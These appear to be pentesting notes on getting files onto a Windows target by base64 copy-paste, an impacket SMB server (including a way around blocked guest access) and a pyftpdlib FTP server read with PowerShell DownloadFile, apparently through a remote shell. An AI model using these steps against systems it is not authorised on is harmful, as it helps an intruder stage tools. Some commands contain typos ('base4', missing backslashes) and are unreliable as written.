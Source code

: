    

File Transfer

Method 1

1. md5sum [file]

- Calculate the 128 bit MD5 checksum

2. cat [file] | base4 -w 0;echo

- Display and converts the file into base64

3. [IO.File]::WriteAllBytes("[directory where file being stored. EX. C:\Users\Public[file]]"), [Convert]::FromBase64String("[base64string]")

- cmd is writing a new file and putting the location. The file is an exact copy based on the base64string.

4. Get-FileHash C:\Users\Public[file] -Algorithm md5

- Retrieves the file md5 hash and use that to compare to the original to confirm validity  
    NOTE: ![f3b2cd525381bdf6b2d0d161a3a3b484.png](9758ad50582641de8f1edf1d8e8b9e82.png)

---

Method 2 SMB Server Transfer

1. sudo impacket-smbserver [sharename. EX. home] -smb2support [share directory. EX. /home]

- Creates a SMB server on port 445 to share files based on the directory you're sharing

2. copy \[IP]\ [directory path. file name] EX. copy \10.128.10.200\home\hello.txt

- Copy the file based on the IP and directory path  
    NOTE: Newer version of Windows block unauthenticated guest access. To bypass

1. sudo impacket-smbserver [sharename] -smb2support [share directory] -user [make one up.EX test] -password [make one up. EX hello]
2. net use n: \[IP] [directory] /user: test hello

---

Method 3 FTP Server Transfer

1. sudo pip3 install pyftpdlib

- Download the necessary python3 module.

2. sudo python3 -m pyftpdlib --port 21

- By default pyftpdlib uses port 2121. Anonymous authentication is enabled by default if we don't set a user and password

3. (New-Object Net.WebClient).DownloadFile('ftp://[IP] / [file]', 'C:\Users\Public\file')

- Go on the Remote PC and launch PS to transfer the file  
    OPTIONAL: ![dd2a6c077e32874f8880adf14d28d057.png](0c657aa9b6544afea8499ef8843d64b1.png)
- Create a command file and execute the commands all at once.
- Useful if the remote shell is non-interactive

---
